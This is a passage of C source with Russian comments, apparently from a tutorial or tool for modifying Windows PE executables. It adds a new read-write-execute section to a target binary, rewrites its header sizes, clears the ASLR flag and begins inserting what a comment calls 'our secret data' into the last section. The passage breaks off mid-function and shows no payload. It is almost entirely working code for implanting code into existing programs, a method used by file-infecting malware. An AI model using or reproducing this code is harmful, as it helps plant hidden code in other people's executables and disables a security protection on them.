 ```c
    CopyMemory(&SH[sCount].Name, sectionName, 8);
    // Мы используем 8 байт для имени секции, потому что это максимально разрешенная длина
 
    // вставляем всю необходимую информацию о нашей новой PE секции
    SH[sCount].Misc.VirtualSize = align(sizeOfSection, NT->OptionalHeader.SectionAlignment, 0);

    SH[sCount].VirtualAddress = align(SH[sCount - 1].Misc.VirtualSize,
         NT->OptionalHeader.SectionAlignment, SH[sCount - 1].VirtualAddress);

    SH[sCount].SizeOfRawData = align(sizeOfSection, NT->OptionalHeader.FileAlignment, 0);

    SH[sCount].PointerToRawData = align(SH[sCount - 1].SizeOfRawData, 
        NT->OptionalHeader.FileAlignment, SH[sCount - 1].PointerToRawData);

    SH[sCount].Characteristics = 0xE00000E0;
 
    /*
    0xE00000E0 = IMAGE_SCN_MEM_WRITE |
                 IMAGE_SCN_CNT_CODE  |
                 IMAGE_SCN_CNT_UNINITIALIZED_DATA  |
                 IMAGE_SCN_MEM_EXECUTE |
                 IMAGE_SCN_CNT_INITIALIZED_DATA |
                 IMAGE_SCN_MEM_READ
    */
 
    SetFilePointer(file, SH[sCount].PointerToRawData + SH[sCount].SizeOfRawData, NULL, FILE_BEGIN);
    // устанавливаем конец файла на последнюю секции + размер файла
    SetEndOfFile(file);
    // теперь меняем размер образа, чтобы он соответствовал нашим модификациям,
    // добавлением новой секции. Размер теперь стал больше
    NT->OptionalHeader.SizeOfImage = SH[sCount].VirtualAddress + SH[sCount].Misc.VirtualSize;
    // так как мы добавляем новую секцию, то меняем их количество
    NT->FileHeader.NumberOfSections += 1;
    SetFilePointer(file, 0, NULL, FILE_BEGIN);
    // и в конечном итоге записываем результат наших модификаций в файл
    WriteFile(file, pByte, fileSize, &dw, NULL);
    CloseHandle(file);
    return 1;
}
 
bool AddCode(char *filepath){
    HANDLE file = CreateFile(filepath, GENERIC_READ | GENERIC_WRITE,
         0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (file == INVALID_HANDLE_VALUE){
        CloseHandle(file);
        return false;
    }
    DWORD filesize = GetFileSize(file, NULL);
    BYTE *pByte = new BYTE[filesize];
    DWORD dw;
    ReadFile(file, pByte, filesize, &dw, NULL);
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)pByte;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(pByte + dos->e_lfanew);
 
    // ОЧЕНЬ ВАЖНО
    // ЕСЛИ ВКЛЮЧЕН ASLR - ЭТО РАБОТАТЬ НЕ БУДЕТ !!!
    // Решение: Отключайте ASLR =))
    nt->OptionalHeader.DllCharacteristics &= ~IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE;
 
    // так как мы добавили новую секцию, она будет последней
    // поэтому мы должны добраться до последней секции и вставить наши секретные данные :)
    PIMAGE_SECTION_HEADER first = IMAGE_FIRST_SECTION(nt);
```